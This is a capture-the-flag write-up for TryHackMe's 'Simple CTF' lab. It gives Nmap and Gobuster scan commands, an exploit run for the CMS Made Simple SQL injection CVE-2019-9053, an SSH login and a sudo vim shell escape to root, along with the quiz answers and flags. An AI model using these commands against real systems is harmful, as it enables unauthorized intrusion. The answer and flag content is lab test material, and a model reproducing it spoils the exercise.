# Simple CTF

> Platform: TryHackMe
>
> Created by: MrSeth6797 and l000g1c
>
> Difficulty: Easy

## Reconnaisance

First of all, we will begin with the Nmap which requires us to answer some of the questions.
```bash
$ nmap -sSVC <TARGET-IP> -T5 -Pn -n -vvv -oA easyctf
```
Actually, you can just use a normal Nmap command, but here is my preferences.

After finish scanning the machine, now we can answer some of the questions:

![img](portopen.png)

**Question: How many services are running under port 1000?**

**Answer: 2**

**Question: What is running on the higher port?**

**Answer: ssh**

Then, to know the hidden directory of the target, we need to run the GoBuster tool.
```bash
$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
```

![img](gobuster.png)

Now, let's try to go to the **"/simple/"** page.

![img](dashboard.png)

After some several times looking through the page, we found out that the web is running using CMS Made Simple version 2.2.8 and found the CVE which is a blind time SQLi vulnerabilities.

**Question: What's the CVE you're using against the application?**

**Answer: CVE-2019-9053**

**Question: To what kind of vulnerability is the application vulnerable?**

**Answer: sqli**

## Exploitation

Then, search for the scripts for the CVE from the exploit.db and run it.
```bash
$ python2 exploit.py -u http://<TARGET-IP>/simple/ --crack -w /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords.txt
```

![img](script.png)

**Question: What's the password?**

**Answer: secret**

**Question: Where can you login with the details obtained?**

**Answer: ssh**

![img](ssh.png)

Nice, now let's check what user is we connecting as, the other user in the home directory and get the user.txt first:
```bash
$ whoami
mitch

$ ls /home
mitch sunbath

$ cat user.txt
G00d j0b, keep up!
```

## 🏳️Flag: user.txt
>**G00d j0b, keep up!**

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the sudo permission first
```bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

**Question: What can you leverage to spawn a privileged shell?**

**Answer: vim**

Now, let's check how can we spawn a privilege shell using vim. From [GTFObins - Vim](https://gtfobins.github.io/gtfobins/vim/), we can get privilege shell running the command from the Sudo section.
```bash
$ sudo vim -c ':!/bin/sh'

$ whoami
root
```

Now, we need to read the **"root.txt"** file to complete this machine.

![img](rootflag.png)

## 🏳️Flag: root.txt
>**W3ll d0n3. You made it!**